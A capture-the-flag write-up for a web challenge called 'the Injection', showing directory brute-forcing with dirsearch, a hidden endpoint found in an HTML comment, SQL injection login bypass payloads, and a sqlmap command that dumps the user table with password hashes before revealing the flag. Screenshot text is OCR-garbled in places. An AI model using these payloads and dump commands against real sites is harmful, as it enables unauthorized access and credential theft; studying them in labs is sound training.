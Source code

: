 # the Injection
> Hack this out http://0x7e7ctf.zerobyte.me:1339/

## About the Challenge
You've been provided with a website without the source code, where only static pages exist without any information on the site.


[Image extracted text: Site Under Maintenance
We apologize for the inconvenience_
but our website is currently undergoing maintenance
Please check back later:]


## How to Solve?
Since there's no information on this page, a directory brute force using `dirsearch` is conducted. Here's the command I used:

```bash
dirsearch -u http://0x7e7ctf.zerobyte.me:1339/
```


[Image extracted text: (kaliokali)-[~/Desktop
dirsearch
http: //0x7e7ctf zerobyte.me
1339/
V0.4.2
clir5 &_Cu"ch
Extensions:
php
aspx, jsp, html,
HTTP
method:
GET
Threads:
Mordli
Output File:
Ihome/kalil
dirsearch/reports/OxZezctf zerobyte.me-1339/-_23-08
Error
/home/kalil dirsearch/logs/errors-23-08-19_10-38-58.log
Target: http:/0x7e7ctf zerobyte
me : 1339/
[10: 38:58] Starting:
[10.39:02 ]
403
287B
nt_WST
txt
[10.39
[10:39
2878
4ad
htaccess
[10
htaccess orig
[10:39
chtaccess
save
[10.39
htaccess
extra
[10:39:02
htaccessOLD2
[10
htaccess
bakl
287
ntm
1
Vouabecome ,
[10
2870
html
[10.39
htaccess_orig
[10
htaccess
[10.39:02
httr-oauth
[10:39:02 E
htpassNds
[10:39:02 ]
287B
htpasswd
test
[10:39:03]
2878
php
[10:39:42]
200
935B
lindex.html
[10:39:46] 200
/login.php
[10:40:00]
403
287B
[serverestatus/
[10:40:00]
403
287B
Aserver-status
Log :
2K8]


There's a file named `login.php,` and when accessed, it displays a login page without any additional features like registration or password recovery. If you view the page source by pressing `Ctrl + U,` there's an HTML comment containing another endpoint named `asuka_is_best_gurl.php`


[Image extracted text: <input
type=
submit
valuez"Login"
form}
<(div>
</body>
</html>
Hello admin,
white hat hacker Who has
found
vulnerability in your system.
have
already patched
the login page,
but you are
still
able to access your
old code at asuka_is
best
php _
Burl]


When accessing this endpoint, it turns out there's the same login page. However, based on the previous HTML comment, this PHP file is vulnerable to a certain vulnerability.


[Image extracted text: Login
Username:
Password:
Login]


If there's a login page, the first thing typically attempted is SQL Injection, by inputting:

```
username: ' or true-- -
password: test
```


[Image extracted text: 7
C
Not secure
OxTeZctfzerobyte me:1339/024599c3f09760daa636921798e1c925.php
Content
Hello shinji!
There is n0
for this user:
Logout
flag]


After inputting the SQL injection payload, here I logged in with the username `shinji`, but the flag didn't appear using the username `shinji`. So, I'm going to try to find other usernames using SQLMap, targeting the `asuka_is_best_gurl.php` endpoint. Below is the command I used to find usernames on this site:

```bash
sqlmap -u http://0x7e7ctf.zerobyte.me:1339/asuka_is_best_gurl.php --forms --dump
```

There are 5 users found in the `asuka_db` database.


[Image extracted text: id
password
usernale
Occf38be2d49c8b34a689a629fa263ad
Shinji
2
Ofe69241e61baae968aSe2dabfafaaed
kaworu
Taa71eOdal2al2bf8fdlaccda88d8fdf
rei
3
1391f7bfefd7b7a0ff8ee6ef97dcds0f
misato
5
64d932f4f8d87561a36a34bef6bac02f
asuka]


Then, here I will attempt to log in one by one using the existing usernames. The payload I'm using is as follows:

```
username: asuka' order by 1-- -
password: test
```


[Image extracted text: Not secure
OxTelctf zerobyte me:1339/024599c3f09
Content
Hello asuka!
ObyteCTF {Inj3ction_fOr_lyf}
Logout]


```
0byteCTF{Inj3ction_f0r_lyf}
```